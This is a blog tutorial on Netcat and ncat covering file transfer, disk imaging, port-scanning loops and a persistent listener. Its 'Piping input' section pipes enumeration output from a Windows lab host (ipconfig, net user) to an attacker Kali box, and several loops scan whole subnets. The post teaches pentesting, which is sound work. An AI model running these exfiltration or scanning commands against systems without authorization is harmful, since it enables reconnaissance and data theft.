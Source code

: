 ```yaml
---
layout: post
title: "Netcat"
date: "2022-06-08"
description: "This article looks at Netcat, a valuable tool in the pentesters toolbox. Hobbit released the original Netcat in 1995, but it hasn’t been maintained despite its popularity. It can sometimes be hard to find a copy of the v1.10 source code. The flexibility and usefulness of this tool prompted the Nmap Project to produce Ncat, a modern reimplementation that supports SSL, IPv6, SOCKS and HTTP proxies, connection brokering, and more."
coverimage: NETCAT.jpg
tags: netcat
published: true
posttype: article
categories: tutorial
---
```


# Netcat

First some brief points about Netcat
- All official versions are free of charge
- Works natively on Linux.
- Works natively on Apple Mac OS X.
- Works natively on Microsoft Windows.
- Features a command-line interface.
- Source code available for inspection.
- General-purpose tools
- Packet crafting tools

The `ncat` tool is a much better option in place of netcat or nc. 

We think `ncat` is better because of its support for multiple protocols and simultaneous connections and SSL.


## Overview

This simple utility reads and writes data across TCP or UDP network connections. It is designed to be a reliable back-end tool to use directly or easily drive by other programs and scripts. At the same time, it is a feature-rich network debugging and exploration tool, since it can create almost any kind of connection you would need, including port binding to accept incoming connections.

> Netcat can operate in environments where you have low privileges, plus it is a standalone binary, meaning you can upload it to an environment and run it as is.
> Be warned that file transfers using Netcat are not encrypted, anyone on the network can grab what you are sending, so use this only on trusted networks.

## Standard Listen and Send

setup netcat in listening mode and save whatever is received to `in.txt`
```
root@box:/tmp/netcat# nc -w 1 -l -p 3000 > in.txt
```

From the sending end, we can pipe in a file called `out.txt` and send it to our listener.
```
nc -w 3 [destination] 3000 < out.txt
```

## Piping input

We can send data by sending output through a pipe to Netcat. Here we are outputting a file, but it could be several items.
```
C:\Documents and Settings\user> type c:\test.txt | c:\nc.exe 192.168.2.8 3000 -w1
```

On our kali box, we can set a while loop like follows.
```
root@evilsaint:/pentesting/enum# while true; do nc -w 4 -lvp 4321 >> enum.txt; done
```

And we can pipe enumeration commands back to our box.
```
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>ipconfig | nc64.exe 10.1.1.5 4321 -w 3
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>net user | nc64.exe 10.1.1.5 4321 -w 3
C:\Users\labuser.ACME\Desktop\netcat-win32-1.12>net account | nc64.exe 10.1.1.5 4321 -w 3
```

## Send with Compression (Linux to Linux)

On the receiving end
```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

On the sending end
```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## Sending a harddrive

It is possible using Netcat to pipe a hardrive

On the sender end run
```
dd if=/dev/hda3 | gzip -9 | nc -l 3333
```

On the receiver end,
```
nc [destination] 3333 | pv -b > hd-image.img.gz
```

### Port Scanning with Netcat

TCP scan of ports 3385 to 3395
```
nc -nvv -w 1 -z 10.0.0.1 3385-3395
```

UDP scan of ports 3385 to 3395
```
nc -unvv -w 1 -z 10.0.0.1 3385-3395
```

Small Bash Loop to loop through all the ports from 1 to 65535 for one IP
```
for i in $(seq 1 65535); do nc -nv -w 1 -z 10.0.0.1 $i ; done
```

Small Bash Loop to loop through all the IPs on our subnet and scan for ports 21-25
```
for i in {1..254}; do nc -vv -n -w 1 10.0.0.$i 21-25 -z; done
```

| Option | Description |
| --- | --- |
| -n | don't resolve first just use the IP address and don't try and use DNS to get a hostname |
| -vv | single -v is verbose, double v -vv is extra verbosity. |
| -u | UDP mode. |
| -w | equals the timeout in seconds for net reads |
| -z | Zero I/O mode used for scanning. |

### Makeshift Permanent Netcat Listener

`nohup` is a program you can use to run your application with such that its stdout/stderr can be sent to a file instead and such that closing the parent script won’t SIGHUP the child. However, you need to have the foresight to use it before starting the application. Because of how `nohup` works, you can’t just apply it to a running process.

`disown` is a bash builtin that removes a shell job from the shell’s job list. This means that you can’t use `fg`, `bg` on it anymore, but more importantly, when you close your shell, it won’t hang or send a SIGHUP to that child anymore. Unlike `nohup`, disown is used after the process has been launched and backgrounded.

Make a Netcat listener persistent.
```
while(1) nohup netcat -lvp 4444
```